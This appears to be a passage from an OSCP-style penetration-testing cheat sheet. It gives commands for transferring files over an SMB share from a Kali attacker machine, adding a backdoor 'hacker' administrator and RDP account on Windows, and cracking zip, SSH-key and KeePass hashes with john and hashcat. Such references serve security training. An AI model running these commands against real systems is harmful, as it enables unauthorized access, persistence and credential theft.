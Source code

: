 ```powershell
kali> impacket-smbserver -smb2support <sharename> .
win> copy file \\KaliIP\sharename
```

## Adding Users

### Windows

```powershell
net user hacker hacker123 /add
net localgroup Administrators hacker /add
net localgroup "Remote Desktop Users" hacker /ADD
```

### Linux

```powershell
adduser <uname> #Interactive
useradd <uname>

useradd -u <UID> -g <group> <uname>  #UID can be something new than existing, this command is to add a user to a specific group
```

## Password-Hash Cracking

*Hash Analyzer*: [https://www.tunnelsup.com/hash-analyzer/](https://www.tunnelsup.com/hash-analyzer/)  </br>
## Password file saw in offsec discord 500-worst-passwords.txt 
### Hash Identifier
- Identify the hash types using these tools
```powershell
hashid <FILE>
name-that-hash -f <FILE>
```
### fcrackzip

```powershell
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt <FILE>.zip #Cracking zip files
```

### John

> [https://github.com/openwall/john/tree/bleeding-jumbo/run](https://github.com/openwall/john/tree/bleeding-jumbo/run)
> 
- If there’s an encrypted file, try to convert it into john hash and crack.

```powershell
ssh2john.py id_rsa > hash
#Convert the obtained hash to John format(above link)
john hashfile --wordlist=rockyou.txt
```
### keepass2John
During the Initial enumeration process of the target with smbclient -L //target or smbclient -L ////target found Database.kdbx file in User directory.
```powershell
keepass2john Database.kdbx > keepass.hash
john keepass.hash
or
hashcat --help | grep "KeePass" 
hashcat -m 13400 keepass.hash  /home/kali/HTB/OSCP/rockyou.txt 
```